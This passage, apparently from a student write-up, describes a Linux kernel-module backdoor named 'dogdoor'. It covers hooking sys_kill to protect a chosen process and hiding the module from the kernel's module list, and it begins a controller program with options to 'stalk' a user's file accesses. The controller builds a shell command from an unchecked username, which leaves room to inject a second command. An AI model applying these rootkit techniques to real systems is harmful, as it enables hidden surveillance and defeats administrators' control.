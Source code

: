 When ‘sys_kill’ is invoked, the pid is compared with the ‘saved_pid.’ It returns -1 when the pid is equal to the saved one. Otherwise, the original ‘sys_kill()’ is executed.
 
**3.3 Hiding and Showing the Module**

The idea of hiding and showing the module seems to be easy at first. If I know the array of the loaded modules, then I can remove the module from the list and add back to the list. However, I could not find the list name. The linked list in Kernel is strange at first.
         
The linked list in Kernel is weird because we put list node inside the data. It is confusing that there it seems not to have a way to reach the data. As it has two headed list, ‘prev’ and ‘next,’ the erasing was easy with ‘list_del’ method.

However, to add the module back to the list, it has to remember the head of the list. I made a global variable that remembers the ‘prev’ list of ‘THIS_MODULE.’ That way, there is no need for the listname for adding since I can reconnect ‘THIS_MODULE’s list to the remembered ‘prev’ list.
The Boolean type variable, ‘hidden,’ works as a switch to hide and show the module on the list.



## Source Code

**bingo.c**


    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    
    //for showing the help message
    void printhelp(){
      printf("\n<help>\nThe Greatest Dogdoor using the Lodable Kernel Module(LKM) \n");
      printf("Options:\n\tstalker \t\t: Print out files the specified user has been visited\n\tstalker [username] \t: Specify the user to stalk\n\tnokill [pid] \t\t: Prevent a process from killing\n\ttoggle \t\t\t: Toggle hiding and showing the dogdoor from the list\n");
    }
    
    int main(int argc, char *argv[]) {
      char buf[300];
      int fd = open("/proc/dogdoor", O_RDWR);
      //if the first parameter is not given
      if(argv[1] == NULL) printhelp();
    
      //if the first parameter is "stalker"
      else if(strcmp(argv[1], "stalker") == 0){
        if(argv[2] == NULL){
          read(fd, buf, 300);
          puts(buf);
        }
        else{
          //search uid with the argv[2] by a command id -u [username]
          char search[100] = "id -u ";
          strcat(search, argv[2]);
    